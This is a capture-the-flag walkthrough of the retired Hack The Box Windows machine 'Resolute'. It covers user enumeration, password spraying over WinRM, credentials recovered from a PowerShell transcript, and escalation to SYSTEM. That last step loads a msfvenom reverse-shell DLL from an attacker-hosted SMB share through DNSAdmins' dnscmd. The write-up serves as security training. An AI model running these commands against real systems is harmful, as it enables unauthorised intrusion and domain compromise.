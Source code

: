 ```yaml
---
layout: default
---
```

## Resolute
###### Retired June 2020
![](https://www.hackthebox.eu/storage/avatars/4c86a642ea237dfde036963e6d182b40.png)

This Windows machine takes advantage of lazy adminstrators, poor PowerShell hygiene, and Windows Defender bypasses.

I started this machine with a quick nmap scan to find open ports
```bash
nmap -p 1-65535 -n -v resolute.htb -T5
```

![](https://yaboygmoney.github.io/htb/images/resolute/nmap1.png)

I followed up with a more in depth nmap scan on a few of the ports that responded. I had a hunch what I needed was one of the first responders.

```bash
nmap -p 53,139,445,636,5985,88 -n resolute.htb -T4 -A -oN nmap.results
```

![](https://yaboygmoney.github.io/htb/images/resolute/nmap2.png)

My next move was to run enum4linux against resolute.htb.

```bash
enum4linux -a resolute.htb
```

This provided the workgroup name, a list of users, and a password. For the account 'marko' we can see a description that says 'Account created. Password set to Welcome123!'. 

![](https://yaboygmoney.github.io/htb/images/resolute/enum.png)

We learned WinRM was enabled from our nmap scan, so I try to use [evil-winrm](https://github.com/Hackplayers/evil-winrm) to login with the credentials found.

```bash
evil-winrm -u marko -p 'Welcome123!' -i resolute.htb
```

..except, no ya don't.

![](https://yaboygmoney.github.io/htb/images/resolute/badpass.png)

Looks like the password won't work for ```marko```. It does appear to be a standard "Welcome to the organization!" password that is set by default. To check it against the user list provided by enum4linux, I ran

```bash
for user in $(cat u.txt); do evil-winrm -u $user -p 'Welcome123!' -i resolute.htb; done
```

It fails a few times, and then I'm able to authentiate as the user 'melanie'.

![](https://yaboygmoney.github.io/htb/images/resolute/loop.png)

A quick get-content command against C:\users\melanie\desktop\user.txt gets the user flag.

![](https://yaboygmoney.github.io/htb/images/resolute/user.png)

After looking around, it doesn't appear as though the user melanie has too many permissions on this system to escalate. Other users with folders on the system are Administrator and Ryan. 

![](https://yaboygmoney.github.io/htb/images/resolute/users.png)

I decide to see what I can see about Ryan.

```powershell
net user ryan
```

![](https://yaboygmoney.github.io/htb/images/resolute/netryan.png)

Ryan is a member of another group: contractors. We don't have much else to go on, so let's see what we can find.

I start at C:\ and see what's what.

```powershell
Get-ChildItem -force
```
There are a few bonus folders in here, namely PSTranscripts. 

![](https://yaboygmoney.github.io/htb/images/resolute/digging.png)

Enumerating that shows an result.

![](https://yaboygmoney.github.io/htb/images/resolute/pstranscript.png)

The file is 3732 bytes of text, so I decide to pull it down to my Kali machine by using ```download Powershell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt``` in Evil-WinRM.

Looking through the file, credentials are easily spotted in a command ryan was using to mount a file share.

![](https://yaboygmoney.github.io/htb/images/resolute/ryancreds.png)

Exit the session as melanie and start a new one as ryan:

```bash
evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i resolute.htb
```

![](https://yaboygmoney.github.io/htb/images/resolute/inAsRyan.png)

I immediately check out what sort of cool things Ryan can accomplish with ```whoami /all```.

![](https://yaboygmoney.github.io/htb/images/resolute/ryangroups.png)

Interestingly, Ryan is a member of the DNSAdmins group. Equally interesting, [this blog](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83) covering exploiting DNSAdmin's abilities to load DLLs with the dnscmd.exe binary.

After learning this, I craft a quick DLL payload with msfvenom.

```bash
msfvenom -p windows/x64/shell_reverse_tcp -f dll LHOST=10.10.14.28 LPORT=1234 > ybgm.dll
```

I start Metasploits exploit/multi/handler to catch the callback, and upload my DLL to the target. Except..

![](https://yaboygmoney.github.io/htb/images/resolute/busted.png)

Windows Defender is busting this payload as soon as it hits the disk. Shay Ber's previously mentioned article does mention that the payload can be called from a UNC path from a remote server. This is important, because Windows Defender only cares if the file is touching Windows Defender's disk. Loading the DLL from a remote server is safe. So to abuse this feature, I need to do a few things:

1. Serve a share folder from Kali, hosting the DLL
2. Mount the share folder so that Ryan can use it
3. Run the dnscmd to config the loading of the bad DLL
4. Restart the DNS service so the DLL is loaded

To accomplish Step 1, I used [Impacket's smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py).

```bash
./smbserver.py YBGM /root/htb/resolute/
```

This command creates an SMB server and share named YBGM, hosting my /root/htb/resolute directory.

![](https://yaboygmoney.github.io/htb/images/resolute/smbsetup.png)

Next, I need to get Ryan using this share. By default, the share doesn't require any authentication, so it's as easy as 

```powershell
net use \\10.10.14.28\ybgm
net use
```

You can see from both the Windows machine and the Kali machine that the connection established.

![](https://yaboygmoney.github.io/htb/images/resolute/mounted.png)

![](https://yaboygmoney.github.io/htb/images/resolute/mounted2.png)

Now I need to run the dnscmd.exe binary to load this DLL and then restart DNS.

```powershell
dnscmd.exe Resolute /config /ServerLevelPlugindll \\10.10.14.28\ybgm\ybgm.dll
sc.exe stop dns
sc.exe start dns
```

![](https://yaboygmoney.github.io/htb/images/resolute/dnscmd.png)

Once DNS comes back up my dll is loaded and a connection is established with my listener.

![](https://yaboygmoney.github.io/htb/images/resolute/metasploit.png)

With the NT AUTHORITY/SYSTEM shell, I can get the contents of C:\users\administrator\desktop\root.txt 

![](https://yaboygmoney.github.io/htb/images/resolute/root.png)
